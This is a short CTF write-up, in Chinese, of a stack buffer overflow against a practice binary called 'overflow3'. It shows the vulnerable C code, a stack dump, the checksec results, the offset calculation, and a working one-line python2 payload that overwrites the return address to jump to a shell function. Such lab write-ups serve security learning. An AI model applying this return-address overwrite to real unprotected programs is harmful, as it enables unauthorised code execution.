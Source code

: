 # 代码审计
```
void shell(void) {
    execl("/bin/sh", "sh", NULL);
}

void vuln(char *str) {
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 21, (void **) &str);
}
```
这时不再是修改变量，而是要跳到一个函数执行

从linux函数执行的步骤来说，函数的返回地址会放在栈上

>Stack dump:
0xff98cb00: 0xff98d2fd (first argument)
0xff98cafc: 0x080486bc (saved eip)  ←这里就是函数执行完后返回的地址
0xff98caf8: 0xff98cb28 (saved ebp)
0xff98caf4: 0xf7000804
0xff98caf0: 0x85c2b8c3
0xff98caec: 0x61616161
0xff98cae8: 0x61616161
0xff98cae4: 0x61616161
0xff98cae0: 0x61616161
0xff98cadc: 0x61616161
0xff98cad8: 0x61616161
0xff98cad4: 0x61616161
0xff98cad0: 0x61616161
0xff98cacc: 0x61616161
0xff98cac8: 0x61616161
0xff98cac4: 0x61616161
0xff98cac0: 0x61616161
0xff98cabc: 0x61616161
0xff98cab8: 0x61616161
0xff98cab4: 0x61616161
0xff98cab0: 0x61616161 (beginning of buffer

查看程序保护措施
>➜  overflow3 checksec overflow3 
[*] '/home/mjr/Desktop/pico/overflow3/overflow3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

没有什么保护措施，NO PIE所以函数的地址是相同的，而且从打印中我们直接得到shell函数的地址
>shell function = 0x80485f8

再计算偏移
>'a'*76+0x80485f8

# 利用

```
./overflow3 `python2 -c "print 'a'*76+'\xf8\x85\x04\x08'"`
```
getshell